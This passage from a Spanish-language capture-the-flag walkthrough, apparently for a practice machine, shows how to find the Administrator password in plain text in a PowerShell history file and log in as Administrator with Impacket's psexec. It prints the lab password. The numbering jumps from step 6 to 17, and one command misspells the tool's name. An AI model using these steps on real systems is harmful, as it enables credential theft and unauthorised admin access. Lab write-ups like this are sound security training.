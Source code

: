 ![](img/filesCanContainCreds.png)

- 6. Vamos a ver uno de los archivos, que es el archivo del historial de PowerShell (como el `.bash_history` de Linux). Se encuentra en `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
```powershell
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```
```powershell
type ConsoleHost_history.txt
```
--> Obtenemos la contraseña del usuario "Administrator" en texto plano! --> `MEGACORP_4dm1n!!`

![](img/administratorPasswd.png)


17. **Una vez que ya hemos escalado privilegios y tenemos la contraseña del Administrador, ahora solo nos falta iniciar sesión con sus credenciales. Para ello usamos otra herramienta de Impacket llamada `psexec.py`.**
```bash
cd impacket/examples
```
```bash
python3 pssexec.py administrator@[target IP]
```
--> Nos pedirá la contraseña y la ingresamos (`MEGACORP_4dm1n!!`)
